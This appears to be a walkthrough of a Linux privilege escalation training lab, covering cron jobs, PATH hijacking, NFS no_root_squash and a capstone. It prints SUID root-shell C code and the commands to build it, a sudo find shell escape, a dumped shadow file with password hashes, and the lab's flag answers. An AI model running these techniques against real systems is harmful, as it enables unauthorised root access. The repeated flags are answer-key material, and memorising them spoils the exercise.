
  
The example above shows a similar situation where the antivirus.sh script was deleted, but the cron job still exists.  
If the full path of the script is not defined (as it was done for the backup.sh script), cron will refer to the paths listed under the PATH variable in the /etc/crontab file. In this case, we should be able to create a script named “antivirus.sh” under our user’s home folder and it should be run by the cron job.

The example above shows a similar situation where the antivirus.sh script was deleted, but the cron job still exists.  
If the full path of the script is not defined (as it was done for the backup.sh script), cron will refer to the paths listed under the PATH variable in the /etc/crontab file. In this case, we should be able to create a script named “antivirus.sh” under our user’s home folder and it should be run by the cron job.

### Questions

We observe four user-defined cron jobs:



We are going to use `backup.sh` to elevate our privileges. Currently, the script contains this:



We will modify it to contain some code that will send us a reverse shell:




Q: How many user-defined cron jobs can you see on the target system?

A: `4`

Q: What is the content of the flag5.txt file?

A: `THM-38300283`

Q: What is Matt's password?

A: `123456`

## Privilege Escalation: PATH

If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script. PATH in Linux is an environmental variable that tells the operating system where to search for executables. For any command that is not built into the shell or that is not defined with an absolute path, Linux will start searching in folders defined under PATH.

If we type “thm” to the command line, these are the locations Linux will look in for an executable called thm. The scenario below will give you a better idea of how this can be leveraged to increase our privilege level. As you will see, this depends entirely on the existing configuration of the target system, so be sure you can answer the questions below before trying this.

1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?

For demo purposes, we will use the script below:



This script tries to launch a system binary called “thm” but the example can easily be replicated with any binary.
We compile this into an executable and set the SUID bit.

```bash
gcc oath_exp.c -o path -w
chmod u+s path
```

Our user now has access to the “path” script with SUID bit set.

Once executed “path” will look for an executable named “thm” inside folders listed under PATH.

If any writable folder is listed under PATH we could create a binary named thm under that directory and have our “path” script run it. As the SUID bit is set, this binary will run with root privilege

A simple search for writable folders can done using the “`find / -writable 2>/dev/null`” command.

Comparing the output we get, with PATH will help us find folders we could use.

We see a number of folders under /usr, thus it could be easier to run our writable folder search once more to cover subfolders.



An alternative could be the command below.

`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`

We have added “grep -v proc” to get rid of the many results related to running processes.
  
Unfortunately, subfolders under /usr are not writable  

The folder that will be easier to write to is probably /tmp. At this point because /tmp is not present in PATH so we will need to add it. As we can see below, the “`export PATH=/tmp:$PATH`” command accomplishes this.

At this point the path script will also look under the /tmp folder for an executable named “thm”.

Creating this command is fairly easy by copying /bin/bash as “thm” under the /tmp folder.



We have given executable rights to our copy of /bin/bash, please note that at this point it will run with our user’s right. What makes a privilege escalation possible within this context is that the path script runs with root privileges.

### Questions



We have writable permissions in the following directories:



If we look only under `/home`, we find a weird directory:



Checking out the directory:





We analyze the `test` file and see that it is a binary, created by root. If we try to execute it, we see that it cannot find a binary called `thm`, to which it is dependent:



We add the directory to the `$PATH`:



Created a `thm` binary file that simply runs a shell. Then we run `test` and we get a root shell:



Q: What is the odd folder you have write access for?

A: `/home/murdoch`

Q: What is the content of the flag6.txt file?

A: `THM-736628929`

## Privilege Escalation: NFS

 configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.)



The critical element for this privilege escalation vector is the “no_root_squash” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.  
  
We will start by enumerating mountable shares from our attacking machine.



We will mount one of the “no_root_squash” shares to our attacking machine and start building our executable.



As we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job.

```c
int main()
{
	setgid(0);
	setuid(0);
	system("/bin/bash");
	return 0;
}
```

Once we compile the code we will set the SUID bit.

```bash
gcc nfs.c -o nfs -w
chmod +s nfs
ls -l nfs
```

You will see below that both files (nfs.c and nfs are present on the target system. We have worked on the mounted share so there was no need to transfer them).



Notice the nfs executable has the SUID bit set on the target system and runs with root privileges.

### Questions

We first enumarate the shares:



All of them have the `no_root_squash` option enabled.

We enumarate the mountable shares from our machine:



We mount `/tmp` (because as `karen`, we have writable access there) share to our machine:

```bash
# create share directory on local machine
mkdir /tmp/lol
# mount the /tmp share from the remote machine
mount -o rw 10.129.186.223:/home/newFolder /tmp/lol
```

Make sure you create `newFolder` directory under `/tmp` in the remote machine, first!

We create a binary on our local machine under `/tmp/lol` with the SUID set:

```c
// lol.c
int main()
{
	setgid(0);
	setuid(0);
	system("/bin/bash");
	return 0;
}
```

```bash
gcc lol.c -o lol -w
chmod +s lol
```

If done right, you should see the two files (`lol.c` and `lol`) under `/tmp/newFolder` on the remote machine. What needs to be done is to run the binary there:



Q: How many mountable shares can you identify on the target system?

A: `3`

Q: How many shares have the "no_root_squash" option enabled?

A: `3`

Q: What is the content of the flag7.txt file?

A: `THM-89384012`

## Capstone Challenge

We login and try to gather some data about our user, groups and OS/kernel info:



The command `cat /etc/exports` returned no results, thus there is no NFS server installed.

There are no cron jobs:



`getcap -r 2>/dev/null` -> returned no results, thus no files with capabilities.

We cannot run `sudo -l`. Finally, let us try to find files with the SUID set.

And we find an old friend:



Let us try to get the contents of `/etc/shadow` and `/etc/passwd` using the command `base64 file | base64 -d`

```
root:$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51::0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
shutdown:*:18353:0:99999:7:::
halt:*:18353:0:99999:7:::
mail:*:18353:0:99999:7:::
operator:*:18353:0:99999:7:::
games:*:18353:0:99999:7:::
ftp:*:18353:0:99999:7:::
nobody:*:18353:0:99999:7:::
pegasus:!!:18785::::::
systemd-network:!!:18785::::::
dbus:!!:18785::::::
polkitd:!!:18785::::::
colord:!!:18785::::::
unbound:!!:18785::::::
libstoragemgmt:!!:18785::::::
saslauth:!!:18785::::::
rpc:!!:18785:0:99999:7:::
gluster:!!:18785::::::
abrt:!!:18785::::::
postfix:!!:18785::::::
setroubleshoot:!!:18785::::::
rtkit:!!:18785::::::
pulse:!!:18785::::::
radvd:!!:18785::::::
chrony:!!:18785::::::
saned:!!:18785::::::
apache:!!:18785::::::
qemu:!!:18785::::::
ntp:!!:18785::::::
tss:!!:18785::::::
sssd:!!:18785::::::
usbmuxd:!!:18785::::::
geoclue:!!:18785::::::
gdm:!!:18785::::::
rpcuser:!!:18785::::::
nfsnobody:!!:18785::::::
gnome-initial-setup:!!:18785::::::
pcp:!!:18785::::::
sshd:!!:18785::::::
avahi:!!:18785::::::
oprofile:!!:18785::::::
tcpdump:!!:18785::::::
leonard:$6$JELumeiiJFPMFj3X$OXKY.N8LDHHTtF5Q/pTCsWbZtO6SfAzEQ6UkeFJy.Kx5C9rXFuPr.8n3v7TbZEttkGKCVj50KavJNAm7ZjRi4/::0:99999:7:::
mailnull:!!:18785::::::
smmsp:!!:18785::::::
nscd:!!:18785::::::
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
```

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
pegasus:x:66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
colord:x:998:995:User for colord:/var/lib/colord:/sbin/nologin
unbound:x:997:994:Unbound DNS resolver:/etc/unbound:/sbin/nologin
libstoragemgmt:x:996:993:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
saslauth:x:995:76:Saslauthd user:/run/saslauthd:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
gluster:x:994:992:GlusterFS daemons:/run/gluster:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
setroubleshoot:x:993:990::/var/lib/setroubleshoot:/sbin/nologin
rtkit:x:172:172:RealtimeKit:/proc:/sbin/nologin
pulse:x:171:171:PulseAudio System Daemon:/var/run/pulse:/sbin/nologin
radvd:x:75:75:radvd user:/:/sbin/nologin
chrony:x:992:987::/var/lib/chrony:/sbin/nologin
saned:x:991:986:SANE scanner daemon user:/usr/share/sane:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
qemu:x:107:107:qemu user:/:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
sssd:x:990:984:User for sssd:/:/sbin/nologin
usbmuxd:x:113:113:usbmuxd user:/:/sbin/nologin
geoclue:x:989:983:User for geoclue:/var/lib/geoclue:/sbin/nologin
gdm:x:42:42::/var/lib/gdm:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
gnome-initial-setup:x:988:982::/run/gnome-initial-setup/:/sbin/nologin
pcp:x:987:981:Performance Co-Pilot:/var/lib/pcp:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
avahi:x:70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin
oprofile:x:16:16:Special user account to be used by OProfile:/var/lib/oprofile:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
leonard:x:1000:1000:leonard:/home/leonard:/bin/bash
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
missy:x:1001:1001::/home/missy:/bin/bash
```

We copy only `missy`s data and we try to crack the hash using `john`.

Fortunately, we were able to do just that:



We switch users to `missy` and we search for the first flag:



Running `sudo -l` reveals that `missy` can run `find` with higher privileges:



We used this to elevate our privileges in a previous task by running the command:

```bash
sudo find . -exec /bin/sh \; -quit
```


### Questions

Q: What is the content of the flag1.txt file?

A: `THM-42828719920544`

Q: What is the content of the flag2.txt file?

A: `THM-168824782390238`

